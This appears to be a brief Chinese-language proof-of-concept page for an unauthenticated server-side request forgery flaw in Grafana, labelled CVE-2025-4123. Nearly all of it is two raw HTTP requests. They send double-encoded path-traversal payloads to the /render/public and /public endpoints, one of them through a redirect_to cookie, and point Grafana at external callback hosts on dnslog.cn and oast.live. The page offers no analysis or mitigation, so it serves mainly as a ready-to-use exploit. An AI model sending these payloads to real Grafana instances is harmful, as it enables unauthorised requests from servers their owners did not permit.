 # Grafana存在未授权SSRF漏洞(CVE-2025-4123)

## poc

```javascript
GET /render/public/..%252f%255Cczeqm5.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Fedora; Linux i686; rv:128.0) Gecko/20100101 Firefox/128.0
Connection: close
Accept-Encoding: gzip
```
<img width="886" alt="1749624834319" src="https://github.com/user-attachments/assets/e139dab4-6d61-4f29-aff2-a8f84d29cd6c" />

```
GET /public/..%2F%5c123.czeqm5.dnslog.cn%2F%3f%2F..%2F.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12) AppleWebKit/616.19 (KHTML, like Gecko) Version/17.7.17 Safari/616.19
Connection: close
Cookie: redirect_to=%2Frender%2Fpublic%2F..%25252f%25255Cd0nt31pu8bl7cn5ncca08sg68smps8h39.oast.live%25252f%25253F%25252f..%25252f..
Accept-Encoding: gzip
```
